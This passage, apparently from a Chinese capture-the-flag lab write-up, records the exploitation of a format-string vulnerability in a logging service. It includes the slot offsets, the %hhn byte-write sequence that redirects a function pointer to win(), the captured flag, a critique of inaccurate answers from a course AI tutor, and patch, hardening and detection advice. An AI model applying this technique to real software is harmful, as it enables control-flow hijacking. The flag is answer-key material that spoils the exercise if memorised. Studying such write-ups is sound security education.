| 2 | 单个 `%p` 只能读到 `0x1` | 幻影参数从寄存器/调用方栈顺序取，首槽不是 `buf` | `%N$p` 逐槽扫描 + 多组 `pad` 交叉验证，定死 `buf[0:8]` = 槽 10 |
| 3 | 目标地址写在格式串前面时 `%10$p` 完全无效 | **NUL 截断**：`fgets` 读入的地址字节含 `0x00`，C 字符串到此结束 | 把目标地址统一放到格式串**之后**（缓冲区末尾参数位） |
| 4 | 单次 `%hn` 写低 16 位 → `Illegal instruction` | 落点相对预期偏移 2 字节，跳到 `endbr64` 之后（字节流里出现 `0x12` = `adc`） | 改逐字节 `%hhn`，计数单调递增 150→274→320→512 |
| 5 | 目标地址写成 `0x401336` → `Segmentation fault` | 落点不在函数入口 | 回到 `win()` 入口 `0x401296` |
| 6 | 探索期一度误判"槽号 = 10 + off/8 有偏差" | 不同 `pad` 下缓冲区内偏移不同，`%10$p` 返回值随之变化 | 用 `pad=8/16/24/48` 系统扫描确认规律，之后所有计算都以 `10 + off/8` 为准 |
| 7 | 直接 `diff` 两版反汇编满屏差异 | v2 导入表加了两项，`.text` 整体后移 `0x40`，所有地址都变 | 先比 `.dynsym`，再把地址归一化为 `HEX` 后比助记符序列 |
| 8 | 误以为"补丁只是让地址平移" | 只看地址 diff，会漏掉真正的语义修改 | 定位到 `printf(buf)` → `printf("%s", buf)`；地址平移是副作用，不是防护 |

### 11. 教学问答：6 问 6 答与三处模型口径问题（截图 09、10）

平台：课程内教学问答（Qwen2.5），提问脚本 `.local/process/7-2-scripts/ask_qa.py`，原文落盘 `.local/process/7-2-qa-transcript.json`（数组元素 `{"index","conversation_id","q","a"}`），提问间隔 ≥11 秒。

| # | conversation_id | 主题 | 覆盖维度 |
| --- | --- | --- | --- |
| 1 | 5624 | `printf(user_buf)` 为何只控格式串也能读栈、`%p` 幻影参数来自哪里、`%N$p` 如何定位槽位 | 漏洞原理 |
| 2 | 5625 | `%n`/`%hn`/`%hhn` 的写入宽度与"已输出字符数"计数机制、为何常用逐字节 `%hhn` | 机制细节 |
| 3 | 5626 | 目标函数以 `endbr64` 开头时，只写低 16 位为何会执行失败（指令字节 / 变长解码角度） | 本题具体坑 |
| 4 | 5627 | `printf(buf)` → `printf("%s", buf)` 为何彻底消除漏洞，还有哪些等价危险写法 | 补丁对比 |
| 5 | 5628 | 编译器选项 / 代码规范 / 运行时防护 / 测试的多层次加固建议与各层局限 | 加固与修复 |
| 6 | 5629 | 应急响应中如何判断服务正被格式化字符串漏洞利用（崩溃特征 / 输入特征 / 日志线索） | 检测与排查 |

**口径说明（如实记录，以下回答不能当权威结论）**：

1. **第 1 问表述不精确**：回答用"幻影参数"作通俗解释方向对，但没有给出 x86-64 SysV 的精确机制（前 5 个可变参数从 `rsi/rdx/rcx/r8/r9` 取，之后从调用方栈槽依次读），并且把 `%N$p` 说成"`printf` 应该**跳过** `N` 个参数"——这是错的，`N` 是**第 N 个可变参数的序号**。本记录以实测为准：`buf[0:8]` = 第 10 个可变参数。
2. **第 2 问措辞混乱**：把 `%n` 说成"将输出指针的值写入……"（应为"把**已输出字符数**写入指针指向的变量"），并把 `%N$hn` 解释成"将位置参数中的值写入下一个未被初始化的字节变量"（同样不准确）；"常用 `%hhn` 是因为输出指针位置难以精确控制"也不是真正原因——真正的原因是逐字节写可以避免超大宽度填充、让累计计数可控且 payload 更短（本题 `%hn` 版实测 SIGILL，`%hhn` 版成功）。
3. **第 3 问不对路**：问的是"目标函数以 `endbr64` 开头时只写低 16 位为何执行失败、如何验证落点正确"，模型答成了"如何在 C 代码里插入 `endbr64` 指令"并给出无关示例，核心论断（把 `F3 0F` 当低 16 位地址执行会失败）与本题现象并非一回事。**该回答不能作为本题结论**；本题的失败原因以实测为准——单次 `%hn` 落点相对预期偏移 2 字节，跳到了 `endbr64` 之后的非指令边界（`0x12` = `adc`），故改用逐字节 `%hhn`。
4. 第 4、5、6 问方向基本对路（`printf("%s", buf)` 的消除原理、`printf`/`syslog`/`err`/`fprintf` 等等价危险写法、`-Wformat-security`/FORTIFY_SOURCE/静态扫描/模糊测试与各自局限、SIGILL/SIGSEGV 与 core dump、输入侧大量 `%p`/`%n` 特征等），但个别细节仍不严谨（例如第 5 问把 `-fstack-protector` 列为格式串加固手段偏牵强），引用时按"参考意见"看待。

**会话指纹与问答截图**：问答平台落地页默认显示"最新会话"，三题共用同一账号，因此截图前必须用本题独有的短语做指纹核验——提问侧指纹 `"为什么仍然能读到栈上的数据"`、回答侧指纹 `"幻影参数"`，并在历史面板按 `row.dataset.id` 打开 `conversation_id=5624`（`.hist-open` 自身没有 `dataset.id`，这也是首轮点不中的原因）；随后读 `#log` 内文本断言 `hasQ && hasA`。核验结果落盘 `.local/process/7-2-scripts/logs/40-qa-fingerprint.json`（`hasQ=true`、`hasA=true`）。两图均为**真实页面截图**：图 09 的会话主区域由应用自身的「历史 → 打开会话」路径加载（真实交互，`#log` 指纹双命中）；图 10 为展示本题 6 轮总览，由页面内 `fetch('/api/chat/history?conversation_id=…')` 取回**平台返回的本题原文**后填入 `#log`、隐藏历史面板（仍是真实页面 + 真实服务返回内容，只有汇总/翻页动作由脚本完成），底部状态行是脚本写入的题注「本题（C035-G2-F 7-2）教学问答 6 轮，由 /api/chat/history 取回本题会话原文后渲染（经会话指纹核验）」；图 10 受页面内层滚动容器高度所限，成图可见第 1–3 问。两图内容与 `.local/process/7-2-qa-transcript.json` 逐条一致，右上角账号胶囊均已按实测坐标涂白（box `(2105,30)-(2500,118)`、bg `rgb(255,252,247)`、ink `3624 → 1056`、脚本 `mask_qa_pill.py`，详见第 12 节 (c)）。


### 12. 截图真实性与脱敏说明

全部截图在 `7-2/screenshots/`，**目录内只有 PNG**；终端类渲染稿的 HTML 源在 `.local/process/7-2-scripts/render/`（不入库）。

| 文件 | 类型 | 内容 | 脱敏 |
| --- | --- | --- | --- |
| `01-靶机banner与交互.png` | 终端渲染稿 | banner、普通文本回显、`%p` 泄漏 | 无个人信息 |
| `02-静态确认-v1与v2导入表差异.png` | 终端渲染稿 | `.dynsym` 逐项对照、新增 `fputs`/`fwrite` | 无 |
| `03-补丁对比-text差异与漏洞点.png` | 终端渲染稿 | v1 漏洞点 `printf(user_buf)`、跳板 `call rax`、v2 `printf("%s", buf)`、归一化 diff | 无 |
| `04-失败对照四组.png` | 终端渲染稿 | 普通文本 / 只泄漏 / NUL 截断 / `%hn` 落点偏移 / 地址写错 / `%hhn` 成功 | 无 |
| `05-利用成功-服务直接打印flag.png` | 终端渲染稿 | 利用链要点、`exploit.py` 真实输出（`payload_len=464`）、flag、3 次复现、无兑换服务说明 | 无 |
| `06-平台作答页-五题已提交.png` | **真实页面截图** | sectionID 6713 作答页：5 题「作答正确」，Flag 框内为 flag | 本次 viewport 实测**无个人信息，未涂白** |
| `07-平台判分-answerHistory.png` | 终端渲染稿 | 选择题答案与判定要点、提交格式、5 条 `isCorrect=True` | 渲染前已删除响应中的 `currentUser` 字段 |
| `08-平台实例-端口映射.png` | **真实页面截图** | 「我的虚拟机」第 2 页，`C035-G2-F` 实例 running / podID / `172.17.0.13` | 本次 viewport 实测**无个人信息，未涂白** |
| `08b-实例端口映射-API原始响应.png` | 终端渲染稿 | `instances?ID=1207` 原始 JSON：`14674→22`、`14675→70` | 渲染前整段删除 `currentUser`（账号/姓名/学号/lastIP） |
| `09-AI问答-教学平台真实页面.png` | **真实页面截图** | 本题会话（cid 5624）第 1 问，主区域由应用自身「历史 → 打开会话」路径加载，`#log` 指纹 Q/A 双命中 | **已按实测坐标涂白账号胶囊** |
| `10-AI问答-本题问答总览.png` | **真实页面截图**（消息区由 `/api/chat/history` 取回本题原文后填入 `#log`） | 本题问答总览，可见第 1–3 问；底部状态行为脚本写入的题注 | 同上 |

**（a）终端类渲染稿的强制标注**：`01`–`05`、`07`、`08b` 均为**真实命令回显的渲染稿（非终端实拍）**——图内顶部有醒目黄色横幅「本图为真实命令回显的渲染稿（非终端实拍）——靶机为裸 TCP 服务，无 GUI/屏幕录制权限，故将实际命令与原始输出原样渲染」。原因：本机为 macOS 且 Agent 进程无屏幕录制权限（`screencapture` 报 `could not create image from display`），靶机 70 端口是裸 TCP 服务、没有可截图的 HTTP 页面，故按仓库约定渲染。渲染参数（最终版）：`shots_render.mjs`，无头 Chrome（playwright-core），viewport `1300×1200`、`deviceScaleFactor=2`，对 `.wrap` 元素做**元素级截图**（`elementHandle.screenshot()`，尺寸只由元素内容决定，成图宽 `2472`/`2600` device px 两类）；此前的 `shots.mjs` 采用"调 viewport + `fullPage`"，在元素高度与 viewport 不一致时会被浏览器平铺合成，是 05 坏图的根因（见下方 (d)）。

**（b）真实页面截图的脱敏实测**：`06`、`08` 用 `page.evaluate()` 遍历 DOM 实测：`document.documentElement.outerHTML` 是否含昵称与学号、并收集 `textContent` 命中元素的 `getBoundingClientRect()`；本次结果为 `hasNick=false`、`hasUser=false`、`hits=[]`（`logs/37-vmc-probe.json`、`logs/38-vm-page2.json`）——本次登录态下 VMC 顶栏右上角只渲染出占位文字「用户」，没有昵称/学号，**因此 `06`/`08` 无需涂白**（这与 5-x/6-x 批次"顶栏出现账号胶囊需要涂白"的情况不同，判据与脚本可复跑复核）。可复用的像素判据（如需涂白时）：顶栏蓝底背景约 `rgb(114,177,239)`，取"与背景色绝对差之和 > 60"的 ink 像素簇聚类取 bbox；本次因 DOM 命中为空，未触发涂白。`08b` 属渲染稿，在渲染前直接把 API 响应里的 `currentUser` 整段删除。

**（c）问答页截图脱敏（本批次实测坐标）**：`09`/`10` 由 `qa_shots.mjs`（viewport `1440×H`、`deviceScaleFactor=2` ⇒ 成图宽 `2880` device px）截取；页面本体为真实登录态页面，消息区按第 11 节说明加载（09 走应用自身「历史 → 打开会话」，10 由 `/api/chat/history` 取回本题原文填入 `#log`）。DOM 实测账号胶囊 `.who > span` 的 bbox 为 CSS `(1070.0, 25.0, 169.5, 26.5)`（`logs/41-qa-pill.json`），即 device `(2140, 50)-(2479, 103)`；现场复核确认该区域内除顶栏背景 `rgb(255,252,247)` 外存在大量深色文字像素簇（昵称 **与学号**，故 box 需要 395 device px 宽，未照抄 5-x/6-x 的窄框），**故必须涂白**。涂白脚本 `.local/process/7-2-scripts/mask_qa_pill.py`（`--check` / `--apply`，幂等），处理范围为 device 矩形 `(2105, 30)-(2500, 118)`（右边界 2500 完全避开右侧「帮助」按钮左缘 device x≈2503），填充色取顶栏实测背景 `rgb(255,252,247)`，并叠加深灰 `rgb(60,60,60)`、字号 26 的标注文字「账号已脱敏」；ink 判据为"与背景色绝对差之和 > 60"的像素数，实测 **涂白前 3624 → 涂白后 1056**（1056 全部来自标注文字），裁剪 device `(2100,10)-(2890,140)` 目视复验：昵称与学号完全消失、「帮助/退出」按钮完好。可追溯、可回退；**若重生成这两张图，必须重跑 `mask_qa_pill.py --apply`**（`qa_shots.mjs` 只做 bbox 探测、不涂白）。

**（d）交付前的一次截图复核（记录两处已修复的交付缺陷）**：撰写本篇时逐图核对，曾发现 ① `09`/`10` 的账号胶囊未涂白（记录声称已涂白，与文件不符）——随后新增 `mask_qa_pill.py` 按实测坐标涂白并复验（见 (c)）；② `05-利用成功-服务直接打印flag.png` 的**旧版本渲染异常**——左半幅与右半幅逐像素完全相同（`PIL.ImageChops.difference().getbbox() is None`）、下半幅重复 banner、右侧被裁断，图内没有 `exploit.py` 的真实输出与 flag 行（全图绿色高亮像素数为 0，而同类渲染稿 `01` 为 579）。根因是旧渲染脚本"按 `document.body.scrollHeight` 调 viewport 再 `fullPage` 截图"，当元素高度与 viewport 高度不一致时被浏览器平铺合成；渲染源 `render/05-exploit-success.html` 本身完整正确。处置：新增 `shots_render.mjs` 改为**元素级截图**（`elementHandle.screenshot()`，viewport `1300×1200`、dSF 2），重截全部 7 张终端渲染稿（`01/02/03/04/05/07/08b`）并逐张核对尺寸。复核判据与结果：`05` 成图 `2600×1314`、左右半幅不再相同、图内可见 `[*] slot0=64 … payload_len=464 (fgets 上限 511)`、`[>] outlen=1008`、`[>] tail=b'AAAA…\x98@@vmc{…}\n'`、`[+] FLAG = vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}` 与「复现 3 次」三行，与 `logs/32-FINAL-flag.txt` 逐字一致。此处保留记录，便于复核者用同样判据（半幅去重 + 绿色高亮像素数 + 图内是否出现 flag 行）复验终端类渲染稿的完整性；flag 本身以原始日志 `logs/28-flag-confirm.txt`（含完整 payload 与 3 次回显）、`logs/32-FINAL-flag.txt`、`logs/33-flag-x3.txt` 为准。

### 13. 靶机遗留物

- **未在靶机上创建/修改任何文件**：利用只通过服务输入改写了进程内存里的函数指针，进程退出即消失。
- 靶机进程在失败尝试中多次崩溃（SIGSEGV / SIGILL），服务侧每次连接都是新进程（`audit-log` 无状态），因此没有残留影响；`win()` 末尾 `_exit(0)` 也不会留下挂起连接。
- 本地遗留（均不入库）：`.local/process/7-2-scripts/`（`exploit.py`、`ask_qa.py`、`shots.mjs`、`qa_shots.mjs`、`mask_qa_pill.py`、`files/`、`render/`、`logs/` 原始输出）与 `.local/process/7-2-*.md|json`。

## Flag

```text
vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}
```

## 总结与心得

### 漏洞原理

- **格式化字符串漏洞（CWE-134）**：v1 的日志输出函数把 `fgets` 读入的用户缓冲区**直接当格式串**传给 `printf`（`0x401375 call printf`，`rdi = buf`）。于是用户输入里的 `%p/%x` 变成"按当前栈帧顺序读内存"的读原语，`%n/%hn/%hhn` 变成"把已输出字符数写到指定指针"的写原语；配合位置参数 `%N$…`（本题 `buf[0:8]` = 第 10 个可变参数）就能精确读写。
- **为什么"只控格式串"就够**：变参函数在 x86-64 SysV 下前 5 个可变参数走 `rsi/rdx/rcx/r8/r9`，之后从调用方栈槽依次取；调用方并没有为 `printf` 准备参数，这些"幻影参数"就落在 `printf` 调用点上方的栈内容里——恰好包括 `main` 栈帧里的那条缓冲区。所以既不需要控制参数列表，也不需要提前泄漏基址。
- **控制流劫持点**：非 PIE 下 `.data 0x404098` 固定保存"日志输出函数指针"（初值 `0x40134e`），且每处理一行日志都会被 `0x401381 call rax` 间接调用。用 4 条 `%hhn` 逐字节把它改成 `0x00401296`（`win()`），本次 `printf` 返回后立刻跳转；`win()` 自己 `open("/flag") + read + write(1,…) + _exit(0)`，**flag 由服务直接打印**，全程无 token、无兑换服务。
- **为什么必须逐字节 `%hhn`**：`%hhn` 写 1 字节、`%hn` 写 2 字节、`%n` 写 4 字节，写入值是"累计已输出字符数 `mod 2^(8×宽度)`"。逐字节写只需让累计计数单调递增（150 → 274 → 320 → 512），每步的宽度填充都不大、落点可精确控制；本题单次 `%hn` 实测落点偏移 2 字节并触发 SIGILL，正是"宽度越大、越依赖对落点的精确假设"的体现。
- **本靶机的两条传输层实测结论**（都属于"书上不写、实测才知道"的细节）：① **`fgets` 读入的 NUL 会截断 `printf` 的解析**，所以含 `0x00` 的目标地址必须放在格式串之后；② 除 NUL 外的任意二进制字节都能安全通过。

### 做题方法

1. **补丁对比的正确顺序：导入表 → 归一化 `.text` → `.rodata`/`.data`**。两版都被 stripped 时，导入表是最省力的入口（`fputs`/`fwrite` 一出现就锁定"输出用户数据的方式"）；而 `.text` 的地址平移是噪声，必须先归一化地址再比助记符，否则会被成屏 diff 淹没，甚至把"地址变了"误当成防护本身。
2. **先用一条探针把漏洞性质钉死，再谈利用**：`hello world`（无泄漏）与 `AAAA.%p…`（有泄漏）的对照，比任何静态推断都直接。
3. **参数槽定位要有交叉验证**：`BBBB|%10$p` 的回显 `0x3031257c42424242` 一次性给出"槽 10 = `buf[0:8]`"，再用多组 `pad` 扫描确认规律；单点结论容易被他人的栈布局差异推翻。
4. **失败对照要留档**：NUL 截断、`%hn` 落点偏移、地址写错这三条失败，恰好构成"为什么最终 payload 长这样"的完整解释链。
5. **同一 payload 多次复现**：3/3 稳定成功 + Lead 用独立脚本再测 2 次一致，才算把 flag 钉死（避免把偶然命中当成利用成功）。

### 修复建议

**本题补丁（v2 已做）**：`printf(user_buf)` → `printf("%s", user_buf)`（把用户数据从格式串位置挪到参数位置），并把两处常量输出改走 `fwrite("[LOG] ", 1, 6, stdout)`、新增带 NULL 检查的 `fputs(str, stdout)` 包装函数。核心改动从根上消除了读/写原语，因此**即使攻击者仍然知道 `win()` 的新地址 `0x4012d6`，也无从写入**。

**v2 的残留面（可以继续加固）**：

1. **间接调用点仍然存在**：`0x4013e5 mov rax,[0x4040a8]` + `0x4013ec call rax` 没有被移除或加校验，函数指针槽仍是可写的 RW 数据；一旦程序里再出现任何别的写原语（溢出、UAF、越界写），这条路径会立刻重新变成跳板。建议：把这类指针放进只读表（编译期常量 + `const`/`-Wl,-z,relro,-z,now`），或直接改成 `switch` 分派。
2. **缺少纵深防御**：两版都没有 stack canary、没有 CFI/PAC 类控制流保护；对一个"只做日志回显"的小程序，编译期加上 `-fstack-protector-strong -D_FORTIFY_SOURCE=2 -Wl,-z,relro,-z,now`、平台侧启用 CFI，成本很低。
3. **输入侧白名单**：日志内容本不需要 `%`，可对控制字符与 `%` 做转义或长度限制（现在还会把含 NUL 的二进制直接当字符串用）。

**检测与应急排查**（与第 11 问第 6 条一致的方向）：

- **崩溃特征**：格式串写原语出错时常见 `SIGSEGV` / `SIGILL`（本题两者都出现过：`%hn` 落点偏移 → SIGILL，地址写错 → SIGSEGV），可检查 core dump、`dmesg`/`journalctl` 中的段错误记录。
- **输入侧特征**：日志/请求里出现大量 `%p`、`%n`、`%hhn`、超长宽度修饰符（如 `%150c`）、以及"格式串后面跟着一段二进制地址"的畸形行——本题的 payload 就是这种形态，非常适合做正则告警。
- **运行时与代码侧**：编译期打开 `-Wformat -Wformat-security`（`printf(buf)` 会被直接告警）、静态扫描（Clang Static Analyzer / Coverity 等）与模糊测试（AFL）都能在早期发现；上线前对"用户输入进格式串位置"的调用做一次专项审计（`printf`/`fprintf`/`sprintf`/`snprintf`/`syslog`/`err`/`warn` 全族）。
- **收口**：一旦确认被利用，先隔离实例、保留 core 与原始输入；确认进程内是否还存在可被间接调用的函数指针槽（本题 `0x404098`/`0x4040a8` 这类），据此评估是否需要重启全部实例。
